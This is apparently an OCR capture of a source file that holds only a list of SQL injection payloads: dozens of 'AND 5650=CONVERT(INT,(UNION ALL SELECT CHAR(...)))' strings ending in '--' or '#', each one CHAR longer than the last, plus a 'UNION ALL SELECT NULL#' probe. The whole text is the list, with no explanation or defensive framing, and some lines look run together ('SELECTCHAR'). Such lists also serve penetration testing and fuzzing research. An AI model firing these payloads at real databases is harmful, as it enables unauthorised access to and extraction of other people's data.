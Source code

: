 ```
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))-- 
 UNION ALL SELECT NULL#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))#
```